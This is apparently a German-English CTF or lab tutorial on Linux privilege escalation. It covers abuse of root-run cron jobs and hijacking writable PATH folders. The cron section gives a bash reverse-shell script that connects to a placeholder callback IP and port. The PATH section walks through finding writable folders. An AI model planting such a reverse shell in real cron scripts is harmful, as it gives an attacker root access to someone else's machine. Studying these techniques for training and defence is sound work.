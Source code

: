 
# Privilegien Eskalieren: Cron Jobs

Cron- Jobs werden verwendet, um Skripte oder Binärdateien zu bestimmten Zeiten auszuführen. Standardmäßig werden sie mit den Rechten ihres Besitzers und nicht des aktuellen Benutzers ausgeführt. Richtig konfigurierte Cron-Jobs sind zwar nicht von Natur aus angreifbar, können aber unter bestimmten Bedingungen eine Möglichkeit zur Privilegienerweiterung bieten.
Die Idee ist ganz einfach: Wenn es eine geplante Aufgabe gibt, die mit Root-Rechten ausgeführt wird, und wir das Skript, das ausgeführt wird, ändern können, dann wird unser Skript mit Root-Rechten ausgeführt.
Cron-Job-Konfigurationen werden als Crontabs (Cron-Tabellen) gespeichert, um die nächste Zeit und das nächste Datum für die Ausführung der Aufgabe zu sehen.
Jeder Benutzer auf dem System hat seine eigene crontab-Datei und kann bestimmte Aufgaben ausführen, egal ob er angemeldet ist oder nicht. Wie man sich denken kann, besteht unser Ziel darin, einen Cron-Job zu finden, der von root erstellt wurde, und ihn unser Skript ausführen zu lassen, idealerweise eine Shell.

Wiegesagt jeder User hat zugriff auf die Cron-Jobs unter `/etc/crontab`

Hier kann es auch vorkommen das ein Cronjob existiert aber das Script gelöscht wurde das der job ausführen soll. Das kann man dann natürliuch nutzen um ein eigenes Script mit passenden namen an der Passenden stelle einzufügen. Egal ob man jetzt das Scripüt anpasst oder ein neues hinerlegt kann man sich hier nach Herzenswunsch austoben um z.B. Automatisch eine Reverseshell mit Root rechten zu starten

Das geht zum beispiel indem man das Script verwendet 
```
#!/bin/bash

bash -i >& /dev/tcp/*CallbackIP*/*callbackPort* 0>&1
```

# Privilegien Eskalierung: PATH

Wenn sich ein Ordner, für den Ihr Benutzer Schreibrechte hat, im Path befindet, kann eine Anwendung möglicherweise zur Ausführung eines Skripts missbraucht werden. PATH in Linux ist eine Umgebungsvariable, die dem Betriebssystem mitteilt, wo es nach ausführbaren Dateien suchen soll. Bei jedem Befehl, der nicht in die Shell integriert oder nicht mit einem absoluten Pfad definiert ist, beginnt Linux mit der Suche in den unter PATH definierten Ordnern. (PATH ist die Umgebungsvariable, von der hier die Rede ist, Pfad ist der Speicherort einer Datei).

Was ist hier wichtig zu Wissen/Testen?
- Welche Ordner befinden sich unter $PATH
- Hat der aktuelle Benutzer Schreibrechte für einen dieser Ordner?
- Kann $PATH geändert werden?
- Gibt es ein Skript/eine Anwendung, die gestartet werden kann und die von dieser Sicherheitslücke betroffen ist?


Beispiel:

we can use the `find / -writable 2>/dev/null | grep home` command to find the writable folders.
In your terminal where you logged in as Karen, run the `cd /home` command so that we can see which files we can access. When we run `-ls -a` we can sere that we have matt, murdoch, and ubuntu. Our flag.txt will be under matt, but let's see whats under murdoch since we have writeable access to it.
